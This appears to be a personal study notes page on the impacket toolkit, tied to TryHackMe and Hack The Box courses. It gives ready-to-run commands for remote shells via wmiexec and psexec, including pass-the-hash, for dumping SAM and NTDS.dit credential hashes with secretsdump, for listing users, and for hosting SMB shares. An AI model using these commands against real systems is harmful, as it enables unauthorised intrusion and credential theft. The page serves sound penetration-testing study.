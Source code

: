 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.7k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump -h # Example of calling a script
```

You could also install them using `pipx`:

```shell!
$ pipx install git+https://github.com/fortra/impacket
$ secretsdump.py -h # Example of calling a script
```
</div><div>

You may also want to install them manually <small>(dirty/may not work)</small>:

```shell!
$ DEST="$HOME/tools/impacket"
$ git clone -b "master" "https://github.com/fortra/impacket" $DEST
$ pip install --user -r $DEST/requirements.txt
$ pip install --user $DEST
$ python $DEST/examples/secretsdump.py [...]
```

📚 You can refer to [thehacker.recipes](https://tools.thehacker.recipes/impacket) for a list of scripts.
</div></div>

<hr class="sep-both">

## Impacket Overview

<div class="row row-cols-lg-2"><div>

#### Impacket 'target' parameter

Most scripts operating require a **target** such as `username@IP`. You can specify the password within the command.

```shell!
$ impacket-xxx username@IP
$ impacket-xxx username:password@IP
$ impacket-xxx username:password@IP -windows-auth
```

`-windows-auth` can be specified to indicate that we want to use local authentication <small>(`.\username`)</small> instead of Active Directory authentication.
</div><div>
</div></div>

<hr class="sep-both">

## Impacket Clients

<div class="row row-cols-lg-2"><div>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
SQL> exit
```

#### smbclient

Connect to a SMB server.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
smbclient> shares
smbclient> use share_name
smbclient> ls
smbclient> tree
```
</div><div>

#### wmiexec

Pop a semi-interactive shell using [DCOM](/operating-systems/networking/protocols/dcom.md):

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

#### psexec

Pop a semi-interactive remote shell using RemComSvc.

```shell!
$ impacket-psexec -hashes lmhash:nthash username@IP
$ impacket-psexec -hashes :nthash username@IP
```
</div></div>

<hr class="sep-both">


<div class="row row-cols-lg-2"><div>

<br>

#### Samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```
</div><div>

#### SecretsDump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
<output format is explained in the output>
```

<br>

<br>

#### SMB server

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
$ impacket-smbserver -smb2support share_name /path/to/share
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
$ impacket-wmiexec domain/username:'password'@IP  # Local Admin but new process per command
$ impacket-psexec domain/username:'password'@IP # SYSTEM so more suspicious
$ impacket-secretsdump -outputfile hashes EXAMPLE\username:'password' -just-dc
impacket-secretsdump -outputfile hashes EXAMPLE.COM/'username':'password'@DC01.EXAMPLE.COM
```
</div><div>
</div></div>